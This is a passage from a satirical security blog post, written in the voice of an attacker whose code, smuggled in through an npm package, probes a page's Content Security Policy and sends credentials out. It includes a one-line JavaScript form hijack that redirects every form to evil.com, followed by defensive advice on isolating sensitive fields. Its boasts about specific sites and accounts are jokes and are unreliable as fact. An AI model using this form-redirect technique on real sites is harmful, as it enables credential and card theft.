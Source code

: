 Since I don’t want to draw attention to myself (except when on the dance floor) I check your CSP before attempting to send something out.

To do this, I make a dummy request to the current page and read the headers.

At this point I can look for ways to get out past your CSP. The Google sign in page has a CSP that would allow me to easily send out your username and password if my code ran on that page. They don’t set connect-src explicitly and also haven’t set the catch-all default-src so I can send your credentials wherever I damn well please.

If you send me $10 in the mail I’ll tell you if my code is running on the Google sign in page.

Amazon has no CSP at all on the page where you type your credit card number in, nor does eBay.

Twitter and PayPal have CSPs, but it’s still dead easy to get your data from them. These two allow behind-the-scenes sending of data in the same way, and this is probably a sign that others allow it as well. At first glance everything looks pretty thorough, they both set the default-src catch-all like they should. But here’s the kicker: that catch-all doesn’t catch all. They haven’t locked down form-action.

So, when I’m checking your CSP (and checking it twice), if everything else is locked down but I don’t see form-action in there, I just go and change the action (where the data is sent when you click ‘sign in’) on all your forms.

```
Array.from(document.forms).forEach(formEl => formEl.action = `//evil.com/bounce-form`);
```

Boom, thanks for sending me your PayPal username and password, pal. I’ll send you a thank you card with a photo of the stuff I bought with your money.

Naturally, I only do this trick once per device and bounce the user right back to the referring page where they will shrug and try again.

(Using this method, I took over Trump’s Twitter account and started sending out all sorts of weird shit. As yet no one has noticed.)

### OK I am sufficiently concerned, what can I do?

#### Option 1:

#### Option 2:

Edit: I’ve detailed this in a follow-up post, Part 2: How to stop me harvesting credit card numbers and passwords from your site.

On any page that collects any data that you don’t want me (or my fellow attackers) to have, don’t use npm modules. Or Google Tag Manager, or ad networks, or analytics, or any code that isn’t yours.

As suggested here, you might want to consider having dedicated, lightweight pages for login and credit card collection that are served up in an iFrame.

You can still have your big ol’ React app with 938 npm packages for the header/footer/nav/whatever, but the part of the page where the user is typing should be in a secured iFrame and it should run only hand-crafted (and may I suggest, not-minified) JavaScript — if you want to do client-side validation.

I will soon be posting my annual report for 2017 where I declare my income from stealing credit card numbers and selling them to gangsters in cool hats. I am required by law to show which websites I skimmed the most credit cards from — maybe yours is on the list?

